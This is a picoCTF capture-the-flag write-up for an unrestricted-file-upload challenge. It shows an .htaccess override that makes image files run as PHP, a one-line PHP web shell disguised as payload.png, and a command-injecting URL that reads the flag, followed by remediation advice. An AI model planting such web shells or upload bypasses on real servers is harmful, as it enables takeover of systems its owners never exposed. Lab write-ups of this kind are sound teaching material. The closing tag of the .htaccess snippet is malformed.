






# byp4ss3d | picoCTF
## Description
A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't.

## Analysis
We start this CTF challenge with the following page:


Here we can observe "Upload Image File" file input, which expects user to enter **JPG, PNG, OR GIF** files. The description gives us a hint about filters applied for this input. That means maybe we can exploit this file input and gain access over the server. 

At first we need to perform basic upload with expected type to see what happens:


As you can see now we are redirected to new page that says we can access our image at `images/uplo.png`. After seeing this message I tried to go to `images/` folder, however, I got the following error message:


This is classic security measure showing us that **Directory Listing** is disabled.Now at least we determined that this server is **Apache** server.

## Exploitation
At first I tried to upload a `php` payload to the website, but it did not work and I got **"Not allowed!** message. We know that Apache servers use `.htaccess` file for server configuration. As a next step I wanted to see if we can upload .htaccess file and try to override the server's configuration. And yes, it worked!

I wrote the following `.htaccess` to override the filters configuration and uploaded it to the server:
```apache
<FilesMatch "\.(png|jpg|jpeg)$">
    SetHandler application/x-httpd-php
</FilesMatch
```


After uploading this `.htaccess` file I wrote very basic **php reverse shell execution** command:
```php
<?php system($_REQUEST['cmd']); ?>
```
The next step was renaming this payload from `payload.php` to `payload.png` to bypass filtering. As we previously overwrote the `.htaccess` configuration, now our file will be treated as `.php` even though we gave it `.png` extension. This is what we get after uploading and accessing our payload:


We get the current error because our `cmd` is set to null. Now all we have to do is to execute commands from url and capture the flag! (I tried to use netcat to execute commands from my own terminal, but I think picoCTF does not allow server to talk to the outside internet):


## Answer
Final payload to capture the flag for this CTF:
```bash
http://amiable-citadel.picoctf.net:61766/images/payload.png?cmd=ls;cd%20..;ls;cd%20..;ls;cat%20flag.txt
```


## Remediation
There are several ways to prevent this **Unrestriced File Upload**.
1) Disabling `.htaccess` overrides => this stops server from processing `.htaccess` files effectively:
```apache
<Directory "/var/www/html/uploads">
    AllowOverride None
</Directory>
```
2) Renaming uploaded files => instead of keeping the original names of files like `payload.png` it is a better idea to rename them to a random hash like `a7bc3d4e5.png` and store the original name in database. This prevents easy access of these files.
